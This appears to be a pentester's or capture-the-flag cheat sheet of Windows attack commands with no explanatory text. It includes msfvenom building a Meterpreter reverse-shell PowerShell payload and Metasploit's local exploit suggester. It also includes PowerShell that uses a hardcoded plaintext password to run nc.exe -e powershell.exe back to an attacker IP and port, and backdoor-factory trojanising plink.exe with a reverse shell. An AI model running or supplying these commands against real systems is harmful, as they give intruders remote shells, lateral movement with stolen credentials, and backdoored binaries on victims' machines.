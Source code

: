 ```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[LHOST] LPORT=[LPORT] -a x64 -f psh > shell.ps1
```


## local_exploit_suggester
```
meterpreter > run post/multi/recon/local_exploit_suggester SHOWDESCRIPTION=true
```

# smbserver
```
sudo python smbserver.py -smb2support control `pwd`
```

# Windows Credencials
```
$pass = ConvertTo-SecureString 'l33th4x0rhector' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("Fidelity\Hector", $pass)
Invoke-Command -Computer Fidelity -Credential $cred -ScriptBlock { cmd.exe "/c C:\inetpub\wwwroot\nc.exe -e powershell.exe 10.10.15.212 4445" }
```

# backdoor-factory
```
backdoor-factory -f plink.exe -H [LHOST] -P [LPORT] -s -s reverse_shell_tcp
```
